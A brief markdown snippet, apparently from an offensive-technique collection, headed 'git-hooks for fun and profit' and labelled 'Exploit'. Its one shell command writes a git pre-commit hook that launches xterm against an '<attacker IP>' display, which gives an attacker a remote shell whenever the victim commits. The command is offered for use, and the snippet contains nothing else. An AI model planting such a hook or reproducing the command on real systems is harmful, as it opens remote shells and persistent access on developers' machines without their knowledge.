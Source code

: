 git-hooks for fun and profit
======================

**Exploit**
```shell-session

echo "xterm -display <attacker IP>:1 &" > .git/hooks/pre-commit; chmod +x .git/hooks/pre-commit

```

